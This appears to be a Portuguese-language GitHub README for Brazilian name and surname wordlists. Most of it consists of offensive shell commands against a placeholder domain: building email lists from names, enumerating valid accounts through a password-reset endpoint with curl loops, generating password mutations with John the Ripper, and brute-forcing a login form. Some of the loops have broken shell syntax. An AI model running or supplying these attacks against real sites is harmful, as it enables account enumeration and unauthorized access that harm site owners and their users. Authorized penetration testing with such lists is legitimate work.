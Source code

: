 # Wordlists-PT-BR
Wordlists em PT-BR, desde nomes, sobrenomes, e em breve adicionaremos endpoints em português para fuzzing. Todas as informações foram extraídas de fontes públicas.


### Criar wordlist de emails concatenando `nome.sobrenome@domain.com`
```
./script.sh nomes.txt sobrenomes.txt domain.com > emails.txt
```
### Brute Force para encontrar emails válidos - Reset Password
```
for email in `cat emails.txt`; do curl -X POST --data "email=$email" "https://domain.com.br/reset-password" -s; done
```
or
```
for nome in `cat nomes.txt`; for sobrenome in `cat sobrenomes.txt`; do curl -X POST --data "email=$nome.$sobrenome@domain.com.br" "https://domain.com.br/resetpassword" -s ; done
```
### Gerar mutação de senha através de poucos nomes fornecidos no txt
```
john --rules=all --stdout --wordlist=nomes.txt > passwords.txt 
```
### Brute Force - Login
```
for email in `cat emails.txt`; for password in `cat passwords.txt`; do curl -X POST --data "email=$email&password=$password" "https://domain.com.br/login" -s; done
```
